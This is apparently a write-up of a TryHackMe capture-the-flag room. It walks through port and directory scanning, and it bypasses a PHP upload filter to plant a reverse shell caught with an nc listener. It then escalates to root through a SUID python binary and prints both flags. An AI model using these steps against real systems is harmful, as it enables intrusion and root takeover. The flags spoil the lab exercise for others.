 1. Recon
   - `nmap -sC -sV -A -vv <target-ip>`
  
   - found two open ports: 22 & 80

2. Scan website directories with dirbuster
   - dirbuster -l /path/to/wordlist/file/wordlist.txt http://<target-ip>

Discovered info:
 - /panel/ path which lets you upload files(possible reverse shell code execution vector)
 - /uploads/ path which lets you see and execute uploaded files (reverse shell 100%)

3. Deliver the reverse shell
   - the website doesnt allow for .php uploads, so i changed it to php7 [ref: https://book.hacktricks.xyz/pentesting-web/file-upload]
   - used nc to listen on port 1234 so that when i execute the shell, i'll gain access to the target machine
     - `nc -lvnp 1234`
   - make sure to change file permissions to 755 so that it can be executed
   - change the script's ip to your machine's ip and port to whatever you want to listen 
   - to execute the reverse shell, just access the file via browser (ex: http://10.10.109.71/uploads/php-reverse-shell.php5)


4. Inside the target machine
   - since we already user.txt is the file we are looking for, we will try to find it in the whole system with the `find` command:
     - `find / -type f -name user.txt 2> /dev/null`
     - /var/www/user.txt < is the path to the file we are looking for, and inside it is the flag
     - THM{y0u_g0t_a_sh3ll}

5. Privelege escalation
   - find for files/packages that have loose permissions
      - `find / -type f -user root -perm -4000 2> /dev/null`
   - got to gtfobins to find ways to use the tools you found(in this case, python)
      - command i found > `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
      - find root.txt > `find / -type f -name root.txt 2> /dev/null`
         - `cat /root/root.txt
         - THM{pr1v1l3g3_3sc4l4t10n}
